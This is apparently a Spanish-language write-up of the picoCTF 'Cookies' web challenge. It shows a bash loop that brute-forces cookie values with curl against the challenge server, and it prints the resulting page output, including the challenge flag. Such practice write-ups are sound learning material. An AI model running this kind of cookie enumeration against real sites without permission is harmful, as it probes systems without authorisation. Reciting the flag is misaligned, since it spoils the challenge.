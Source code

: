 ## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)

## Datos de Acceso al Nivel
user: carlosof
password:

## Solución 
- Iniciar un bucle, e iterar sobre los números del 0 al 20.
- Realizar una solicitud HTTP, usando curl para enviar una solicitud al servidor en http://mercury.picoctf.net:54219/check.
- Incluir una cookie en la solicitud con el nombre name y el valor del número actual del bucle ($i).
- Filtrar la salida: Pasar el resultado de curl a grep para buscar y mostrar solo las líneas que contienen "I love" o "pico".

```bash
carlosof-picoctf@webshell:~$ for i in {0..20}; do  curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep "I love\|pico"
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
```
## Notas Adicionales

## Referencias 
https://play.picoctf.org/practice/challenge/173